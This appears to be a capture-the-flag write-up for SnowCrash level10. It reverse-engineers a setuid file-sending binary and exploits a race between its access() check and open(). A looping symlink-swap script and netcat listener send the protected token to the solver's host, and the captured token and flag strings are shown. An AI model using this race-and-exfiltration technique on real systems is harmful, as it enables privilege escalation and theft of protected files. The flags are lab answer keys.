# Flag10

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
```
 I transfer the executable file to my local session and open Ghidra. Here is the decompiled `main()` function:
```

/* WARNING: Unknown calling convention */

int main(int argc,char **argv)

{
  uint16_t port;
  int acc_ret;
  int conn_ret;
  ssize_t written;
  size_t rd;
  int *err;
  int in_GS_OFFSET;
  char **av;
  char *file;
  char *host;
  int fd;
  int ffd;
  int rc;
  char buffer [4096];
  sockaddr_in sin;
  undefined writing_buf [4096];
  sockaddr socket_addr;
  int stack_cookie;
  char *filename;
  char *ip;
  
  stack_cookie = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*av);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  filename = av[1];
  ip = av[2];
  acc_ret = access(av[1],4);
  if (acc_ret == 0) {
    printf("Connecting to %s:6969 .. ",ip);
    fflush(stdout);
    acc_ret = socket(2,1,0);
    socket_addr.sa_data[2] = '\0';
    socket_addr.sa_data[3] = '\0';
    socket_addr.sa_data[4] = '\0';
    socket_addr.sa_data[5] = '\0';
    socket_addr.sa_data[6] = '\0';
    socket_addr.sa_data[7] = '\0';
    socket_addr.sa_data[8] = '\0';
    socket_addr.sa_data[9] = '\0';
    socket_addr.sa_data[10] = '\0';
    socket_addr.sa_data[11] = '\0';
    socket_addr.sa_data[12] = '\0';
    socket_addr.sa_data[13] = '\0';
    socket_addr.sa_family = 2;
    socket_addr.sa_data[0] = '\0';
    socket_addr.sa_data[1] = '\0';
    socket_addr.sa_data._2_4_ = inet_addr(ip);
    port = htons(0x1b39);
    socket_addr.sa_data._0_2_ = port;
    conn_ret = connect(acc_ret,&socket_addr,0x10);
    if (conn_ret == -1) {
      printf("Unable to connect to host %s\n",ip);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    written = write(acc_ret,".*( )*.\n",8);
    if (written == -1) {
      printf("Unable to write banner to host %s\n",ip);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    conn_ret = open(filename,0);
    if (conn_ret == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    rd = read(conn_ret,writing_buf,0x1000);
    if (rd == 0xffffffff) {
      err = __errno_location();
      filename = strerror(*err);
      printf("Unable to read from file: %s\n",filename);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(acc_ret,writing_buf,rd);
    acc_ret = puts("wrote file!");
  }
  else {
    acc_ret = printf("You don\'t have access to %s\n",filename);
  }
  if (stack_cookie != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return acc_ret;
}

```

The program tests if the user can access the file to send and tries to send it to the IP address given as a second argument (the port is 6969).

From the man of [`access`](https://man7.org/linux/man-pages/man2/access.2.html):
>The check is done using the calling process's _real_ UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file.  Similarly, for the root user, the check uses the set of permitted capabilities rather than the set of effective capabilities; and for non-root users, the check uses an empty set of capabilities.
>This allows set-user-ID programs and capability-endowed programs to easily determine the invoking user's authority.  In other words, access() does not answer the "can I read/write/execute this file?" question.  It answers a slightly different question: "(assuming I'm a setuid binary) can the user who invoked me read/write/execute this file?", which gives set-user-ID programs the possibility to prevent malicious users from causing them to read files which users shouldn't be able to read.

```
~ $ nc -lvnp 6969
listening on [any] 6969 ...

```

```
level10@SnowCrash:~$ cat /var/tmp/flag
getflag
level10@SnowCrash:~$ chmod 666 /var/tmp/flag
level10@SnowCrash:~$ ./level10 /var/tmp/flag 10.13.250.56
Connecting to 10.13.250.56:6969 .. Connected!
Sending file .. level10@SnowCrash:~$ ./level10 /var/tmp/flag 10.13.2.9
Connecting to 10.13.2.9:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ vim /var/tmp/flag
```

```
~ $ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.13.2.9] from (UNKNOWN) [10.13.250.56] 54167
.*( )*.
getflag

~ $
```
We have a possible data race issue/exploit, since the same variable `acc_ret` is used to store both the return value of `access` and the one of `socket`, before storing the value of `put`, whereas the variable `conn_ret` stores the return value of both `connect` and `socket`.

The solution to this riddle may be found in the execution of a script changing the input file from one we have reading permissions on to the `token` file, as [suggested](https://www.win.tue.nl/~aeb/linux/hh/hh-9.html). Something like the following, in which `myfile` is at first a symbolic link to `a`, but is later converted as a symbolic link to `token`:
```
~ $ cat script.sh
#!/bin/sh

touch myfile
while true; do
        ln -sf /var/tmp/myfile /var/tmp/a &
        /home/user/level10/level10 /var/tmp/a 10.13.2.9 &
        ln -sf /home/user/level10/token /var/tmp/a &
done
```
Launching the script creates a loop. Every command is executed in the [background](https://stackoverflow.com/questions/13338870/what-does-at-the-end-of-a-linux-command-mean):
```
level10@SnowCrash:~$ cd /var/tmp/
level10@SnowCrash:/var/tmp$ bash script.sh
You don't have access to /var/tmp/a
Connecting to 10.13.2.9:6969 .. You don't have access to /var/tmp/a
You don't have access to /var/tmp/a
Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. You don't have access to /var/tmp/a
Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. Connecting to 10.13.2.9:6969 .. You don't have access to /var/tmp/a
<SNIP>
```
Then I launch my `nc` listener on my session... and get it (it may take some tries, anyway)!
```
~ $ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.13.2.9] from (UNKNOWN) [10.13.250.56] 57788
.*( )*.
woupa2yuojeeaaed06riuj63c
```
Phew!
```
level10@SnowCrash:/var/tmp$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```